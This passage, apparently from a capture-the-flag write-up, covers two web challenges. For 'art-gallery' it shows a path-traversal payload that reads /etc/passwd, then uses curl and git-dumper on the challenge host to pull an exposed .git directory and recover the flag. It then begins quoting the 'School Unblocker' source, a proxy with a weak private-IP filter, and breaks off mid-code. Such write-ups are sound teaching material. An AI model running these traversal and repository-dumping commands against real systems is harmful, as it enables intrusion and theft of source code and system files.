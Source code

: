 So, at the start of the challenges, as usual we try to download/see default payload for LFI (Local File Inclusion) challenge: `../../../../etc/passwd`. And..... it downloaded a file.

when I opened it, it shows a legit `/etc/passwd` file:

we also can try if we can access another endpoint, we'll try .git/config (this is the easiest payload I can think)

```bash
~/S/a/art-gallery ❯❯❯ curl "https://art-gallery.web.actf.co/gallery?member=../.git/config"                    ✘ 130
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
```

Okay, so we can access .git, but because we can't download the whole .git folder, we have to do manually, or using a tool. We can use [git-dumper](https://github.com/arthaud/git-dumper).

```
# install git-dumper
pip3 install git-dumper

# use it to our target
python3 -m git_dumper "https://art-gallery.web.actf.co/gallery?member=../.git" .

# we use --patch in git log so we can see what's changed in the log, and we'll find the flag
git log --patch
```

### School Unblocker

#### Challenge Description

#### Source Code

```javascript
import express from "express";
import fetch from "node-fetch";
import path from "path";
import { fileURLToPath, URL } from "url";
import { resolve4 } from "dns/promises";

function isIpv4(str) {
    const chunks = str.split(".").map(x => parseInt(x, 10));
    return chunks.length === 4 && chunks.every(x => !isNaN(x) && x >= 0 && x < 256);
}

function isPublicIp(ip) {
    const chunks = ip.split(".").map(x => parseInt(x, 10));
    if ([127, 0, 10, 192].includes(chunks[0])) {
        return false;
    }
    if (chunks[0] == 172 && chunks[1] >= 16 && chunks[1] < 32) {
        return false;
    }
    return true;
}

const __dirname = path.dirname(fileURLToPath(import.meta.url));

const app = express();
app.use(express.urlencoded({ extended: false }));

// environment config
```